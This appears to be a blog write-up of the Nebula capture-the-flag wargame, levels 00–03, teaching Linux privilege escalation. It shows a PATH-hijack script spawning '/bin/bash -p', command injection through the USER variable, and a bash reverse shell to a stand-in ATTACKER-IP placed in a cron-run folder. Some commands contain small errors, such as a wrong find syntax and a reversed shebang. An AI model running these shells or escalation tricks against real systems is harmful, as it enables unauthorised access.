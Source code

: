 # Nebula Exploit Development Challenge Guide

## Welcome to the Nebula Challenge!
---
Before you dive into the Nebula challenge and explore its intricacies, it's highly recommended to read the instruction page carefully. This will provide you with valuable information, guidelines, and tips to make the most out of your Nebula experience.

**[Read the Instructions](https://sec-fortress.github.io/posts/projects/posts/instructions.html)**

## Exploring Nebula Write-ups

You're currently on the Nebula write-up page, where I'll be sharing my journey through various challenges. Here, I've categorized my experiences to help you navigate through the different aspects of the Nebula challenge. Feel free to explore and learn from my solutions and insights.

### Write-up Categories

1. [Local Exploits](#local-exploits)
2. [Privilege Escalation](#privilege-escalation)

Let's dive into the fascinating world of Nebula and uncover the vulnerabilities and solutions that lie ahead!

---

## LEVEL 00

Our First step is to import the ISO file in your Favorite VM Player and SSH into it, Make sure to choose the first option here :

![](https://i.imgur.com/6YsmyRm.png)

Login with `nebula` as username and `nebula` as password

![](https://i.imgur.com/Hzkj8bH.png)

Great, Now let SSH to **LEVEL 00** , do `ifconfig` on nebula and do `ssh level00@<ip-address>`

![](https://i.imgur.com/CL41c5F.png)

![](https://i.imgur.com/nOjD6Z2.png)

> **Objective :**  Find a Set User ID program that will run as the “flag00” account

Definitely we need the Find command to do this , we can use this syntax

```shell
find / -type f -perm -u=flag00 2>/dev/null
```

![](https://i.imgur.com/aOl30E6.png)

We can see that we have alot of SUID programs here , but the first one looks interesting, since we are looking for something related to "flag00" , which after running it leaves us with a message

![](https://i.imgur.com/1s4ac6d.png)

## LEVEL 01

Exit the previous session and login as `level01` both password and username

![](https://i.imgur.com/FSFcma3.png)

> **Objective :** There is vulnerability in a program that allows arbitrary programs to be executed, can you find it? (Refer to the instructions page to know more)

First of all we would `cd` to  **/home/flag01** since we where asked to do so and as we can see we have a "flag01" file with the SUID bit set and executable permissions

![](https://i.imgur.com/t7Bzj2s.png)

Viewing the `source-code` we can see that we have a line that allows us to run system commands :

```c
  system("/usr/bin/env echo and now what?");
```

What we can do here is either the `&&` operator or `;` followed by any other command we wish to run, something like `./flag01; /bin/bash` or `./flag01 && /bin/bash`

![](https://i.imgur.com/XxuYWZT.png)

Definitely, we did not escalate privileges as `flag01`, Since the command `/usr/bin/env` is been used to validate PATH in the executable and then the binary `echo` is ran, we can definitely use this binary to get "flag01" by creating a malicious `echo` file and then adding the location of this malicious file to our PATH Environment.

- Change Directory to /tmp since it is a world writeable folder - `cd /tmp`
- Then do open up nano saving the filename as **echo** - `nano echo`
- Add these lines to the file

```shell
!#/bin/bash

/bin/bash -p
```

- Now save it and grant it executable permissions - `chmod +x echo`

![](https://i.imgur.com/lwLyqCO.png)

- Now add /tmp to our path environment with the command

```shell
export PATH=/tmp:$PATH
```

![](https://i.imgur.com/6ArgPMC.png)

Sorry i did it twice here, you can run the command ones and we are good, Now go back to our **/home/flag01** and run the executable there again, you should be user `flag01`

![](https://i.imgur.com/JIZ9P1S.png)

## LEVEL 02

As usual we are given a C program for this too, but the vulnerable code snippet is these

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
```

this program is typically the same as the other one but with more features, this program is going to run the `/bin/echo` binary and print out the current user just like the `whoami` command, but this time it is the current user setup in the USER Environment Variable

![](https://i.imgur.com/5C7XL7w.png)

We can alter this by providing our own USER like the image below, what we did is use the `&&` operator to specify that if the first condition is true which is the `USER="sec-fortress"` then execute the second one which is `./flag02` 

![](https://i.imgur.com/fvUFakt.png)

Now we need a way to run `/bin/bash -p` , we can do this using the `#` and `;` operator whereas the hashtag comment out everything after that command in this case _is cool_ , You should obtain user **flag02** if we did it right

![](https://i.imgur.com/0MZfA1Z.png)

## LEVEL 03

We are giving a folder and an executable in the **/home/flag03** folder

![](https://i.imgur.com/N5Eil9Q.png)

In which the folder `writeable.d` has nothing inside but the `writeable.sh` file has some kind of bash script that looks for a file in the `writeable.d` directory named `*` and then run this `*` file in debug mode with `bash -x`, after the file name `*` is ran, it automatically deletes it

![](https://i.imgur.com/cQX65AY.png)

But as a **Penetration Tester** we know that before the script deletes, we would have gotten what we want, How ??

- We start by starting up a Netcat listener on port 4444 on our attacker machine - `nc -lvnp 4444`
- Then creating a file called `*` in the **writeable.d** directory - `touch *`

![](https://i.imgur.com/7dnhYjV.png)

- Then add these payload to get a reverse shell as user **flag03** into the `*` file, make sure to change ATTACKER-IP to a valid IP address:

```shell
/bin/bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1
```

- Now grant the `*` file executable permissions and wait for the Moment of doom 😆

![](https://i.imgur.com/xsf3Ojy.png)

---

Remember, to get started, **[read the instructions](https://sec-fortress.github.io/posts/projects/posts/instructions.html)** to ensure you're well-prepared for the Nebula challenge. Happy exploring and learning!

# Thank You for Joining the Nebula Challenge Journey!

As I wrap up this series of Nebula exploit development challenge write-ups, I want to extend my heartfelt gratitude to each and every one of you who embarked on this journey with me. Your curiosity, dedication, and passion for cybersecurity are truly inspiring.

Exploring the intricacies of Linux vulnerabilities and exploit development through Nebula has been an incredible experience. It's through challenges like these that we continue to learn, grow, and strengthen our skills in the ever-evolving landscape of cybersecurity.

I hope that my write-ups have provided insights, strategies, and a deeper understanding of the fascinating world of security exploits. Remember, these write-ups are just a snapshot of what's possible, and I encourage you to explore, experiment, and take your learning even further.

Thank you for your engagement, your feedback, and your enthusiasm. The journey doesn't end here—there's always more to discover, more to learn, and more challenges to conquer.

As you move forward in your own cybersecurity endeavors, may you find success, excitement, and a sense of accomplishment in every step you take. Keep pushing boundaries, keep learning, and keep making the digital world a safer place.

Stay curious, stay determined, and keep challenging the status quo.

With sincere gratitude,
[Sec-Fortress]

